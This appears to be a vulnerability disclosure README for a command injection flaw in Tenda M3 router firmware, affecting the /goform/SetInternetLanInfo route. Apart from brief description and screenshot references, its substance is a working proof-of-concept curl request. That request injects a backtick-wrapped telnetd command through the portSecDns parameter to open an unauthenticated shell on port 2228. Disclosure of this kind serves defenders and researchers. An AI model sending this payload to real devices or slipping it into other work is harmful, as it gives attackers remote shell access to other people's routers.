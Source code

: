 # Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /goform/SetInternetLanInfo route. This could lead to Command Injection via Shell Metacharacters.

httpd:

![1](./1.jpg)

netctrl:

![2](./2.jpg)



libtpi.so:

![3](./3.jpg)

When we send packets, the router will be shell

```
curl -i -X POST http://192.168.10.1/goform/SetInternetLanInfo -d portSecDns='`telnetd -p 2228 -l /bin/sh`' -d portIp='192.168.10.1'  --cookie "user=admin"
```





![poc](./poc.jpg)

